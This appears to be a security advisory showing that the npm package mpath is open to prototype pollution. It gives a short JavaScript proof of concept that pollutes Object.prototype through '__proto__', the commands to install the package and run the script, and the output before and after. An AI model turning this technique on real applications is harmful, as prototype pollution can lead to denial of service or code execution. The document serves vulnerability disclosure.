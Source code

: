 # Description

`mpath` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { get } = require('mpath')

console.log(`Before: ${{}.polluted}`)
get('__proto__', {}).polluted = true
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i mpath # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

